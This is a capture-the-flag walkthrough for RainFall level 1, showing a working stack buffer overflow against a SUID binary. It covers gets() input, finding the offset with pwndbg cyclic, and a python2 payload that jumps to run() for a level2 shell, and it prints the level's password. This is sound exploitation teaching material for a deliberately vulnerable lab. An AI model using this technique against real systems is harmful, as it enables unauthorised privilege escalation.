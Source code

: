 # Walkthrough for Level 1

## Overview

`level1` is a SUID binary owned by `level2`, so it runs with `level2`'s permissions when executed by any user.

```shell
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Understanding the Binary

After decompiling the `level1` binary with [Ghidra](https://github.com/NationalSecurityAgency/ghidra), we find two
functions: `main` and `run`.

The `main` function gets user input using the `gets` function and stores it in a buffer of 76 bytes. Since `gets` does
not check the length of the input, this program is vulnerable to a buffer overflow attack.

The `run` function spawns a shell and, since the SETUID is set for this binary, and it belongs to `level2`, the shell
will run with the `level2` privileges. However, the `fun` function is never called directly in our regular program flow.
We need to overwrite the return address of the `main` function with the address of the `run` function to execute it.
To do this, we need to craft an input that fills the buffer and then overwrites the return address of `main` with the
address of the `run` function.

## Finding the Address of `run`

We get the address of the `run` function using GDB; in this case, it is 0x08048444.

```shell
level1@RainFall:~$ gdb ./level1 
...SNIP...
(gdb) info fun
All defined functions:

Non-debugging symbols:
0x080482f8  _init
...SNIP...
0x08048444  run
0x08048480  main
...SNIP...
```

## Calculating the Instruction Pointer Offset

[Pwndbg](https://github.com/pwndbg/pwndbg) is a Python module that adds useful utilities and enhancements to GDB and
LLDB, making these debuggers easier to use. 
Inside we find `Pwn cyclic` which is a tool used to identify the exact location of a buffer overflow.

It works by generating a sequence of unique patterns, which can be inputted into a program. Once the buffer overflow is
achieved, the crash dump will contain part of this unique pattern. By analyzing the crash dump, we can pinpoint the
exact offset where the buffer overflow occurred.


```shell
┌──(kali㉿kali)-[~/rainfall/level1]
└─$ gdb ./level1       
...SNIP...
pwndbg> cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
pwndbg> run
Starting program: /home/kali/rainfall/level1/level1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────────────────────────────────
 EAX  0xffffd1c0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
 EBX  0xf7f99e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x232d0c /* '\x0c-#' */
 ECX  0xf7f9b8ec (_IO_stdfile_0_lock) ◂— 0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x80484a0 (__libc_csu_init) ◂— push ebp
 EBP  0x61616173 ('saaa')
 ESP  0xffffd210 ◂— 0
 EIP  0x61616174 ('taaa')
...SNIP...
```

The register we are interested in is the EIP (Extended Instruction Pointer) register, which contains the address of the
next instruction to be executed. We see that the EIP register contains the value 'taaa'. Using the cyclic -l command, we
can find the offset in the cyclic pattern that corresponds to this value. In this case, the offset is 76 bytes.

```shell
pwndbg> cyclic -l taaa
Finding cyclic pattern of 4 bytes: b'taaa' (hex: 0x74616161)
Found at offset 76
```

## Crafting the Payload

We use Python to create a payload consisting of 76 'A's followed by the address of the `run` function in little-endian
format, with the intention of overwriting the EIP register and redirecting the program flow to the `run` function.
We save the result to the file `/tmp/payload`.

```shell
┌──(kali㉿kali)-[~/rainfall/level1]
└─$ python2 -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/payload 
```

## Executing `run` function

We use the `cat` command with the `-` option to keep STDIN open, since the shell executed by the `run` function needs an
interactive terminal to work properly. Once we run our exploit successfully, we can use the `id` command to verify that
the shell is running as the `level2` user. 

```shell
level1@RainFall:~$ cat /tmp/payload - | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
```

## Getting the Password

Finally, we can read the `.pass` file of `level2` to complete the level.

```shell
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We can now log in via SSH as the `level2` user using the password we just found.
